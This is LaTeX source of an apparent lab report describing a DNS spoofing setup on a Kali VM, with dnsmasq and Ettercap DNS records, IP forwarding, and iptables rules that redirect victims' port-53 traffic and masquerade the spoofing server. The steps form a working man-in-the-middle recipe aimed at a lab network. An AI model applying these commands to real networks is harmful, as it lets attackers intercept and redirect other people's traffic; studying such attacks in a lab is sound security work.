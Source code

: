 \documentclass[conference,letterpaper]{IEEEtran}
\begin{document}
We set up \textit{dnsmasq} with the following configuration, where we write a local DNS record stating that grouptwo.com is situated at 10.0.2.15

We do this by updating the \textit{dnsmasq.conf} file.

\begin{lstlisting}
interface=eth0
address=/grouptwo.com/10.0.2.15
\end{lstlisting}

We then update the \textit{etter.dns} file as well. This allows the DNS Spoofing software we are using to log when our DNS server has successfully spoofed a machine.

\begin{lstlisting}
grouptwo.com A 10.0.2.15
\end{lstlisting}

We enable IP forwarding on our VM with the following command. IP Forwarding allows our VM to inspect all packets that come in, tamper with the packets and then send them to their destination address.

\begin{lstlisting}
echo 1 > /proc/sys/net/ipv4/ip_forward
\end{lstlisting}

We update our iptables\cite{purdyLinuxIptablesPocket2004} to route both TCP and UDP traffic directed towards port 53 to be redirected towards our Kali VM. Port 53 is the default used by Domain Name System for communication.

\begin{lstlisting}
sudo iptables -t nat -A PREROUTING -p udp --dport 53 -j DNAT --to-destination 10.0.2.15:53

sudo iptables -t nat -A PREROUTING -p tcp --dport 53 -j DNAT --to-destination 10.0.2.15:53
\end{lstlisting}
The last command is used to rewrite the packet such that the source address seems to come from a legitimate DNS server rather than our malicious local DNS server.
\begin{lstlisting}
sudo iptables -t nat -A POSTROUTING -j MASQUERADE
\end{lstlisting}
\subsection{Execution}
Startup \textit{dnsmasq}, this starts up our small DNS forwarding service at port 53 of the Kali VM's IP.

\begin{lstlisting}
systemctl start dnsmasq.service
\end{lstlisting}
\end{document}
